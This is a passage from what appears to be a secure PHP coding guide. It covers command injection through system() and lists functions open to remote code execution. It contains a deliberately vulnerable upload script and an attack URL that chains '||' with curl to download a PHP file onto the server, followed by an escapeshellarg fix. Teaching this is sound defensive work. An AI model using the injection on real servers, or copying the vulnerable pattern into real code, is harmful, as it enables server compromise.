 ##5) Remote Command Execution
####Affected PHP Functions
- exec
- passthru
- system
- shell_exec
- `` (backticks)
- popen
- proc_open
- pcntl_exec

####Vulnerable Code

upload_picture.php
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.$path);
}
// upload picture
?>
```
####Attack
- Pass arguments with || or && then system commands
	- http://localhost/command/upload_picture.php?user_id=1 || curl -K https://raw.githubusercontent.com/0xSpec/Secure-PHP-Programming/master/lfd/download_invoice.php -o test.php

####How to fix
- Use escapeshellarg() and escapeshellcmd()

upload_picture_fixed.php
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.escapeshellarg($path));
}
// upload picture
?>
```

##6) Remote Code Execution
####Affected PHP Functions
- eval
- assert
- preg_replace // with /e in regex
- create_function
- $$, extract & parse_str with one parameter
- dynamic function
- ReflectionFunction
- unserialize
- functions with callbacks for example (array_map, usort, ob_start & preg_replace_callback etc)
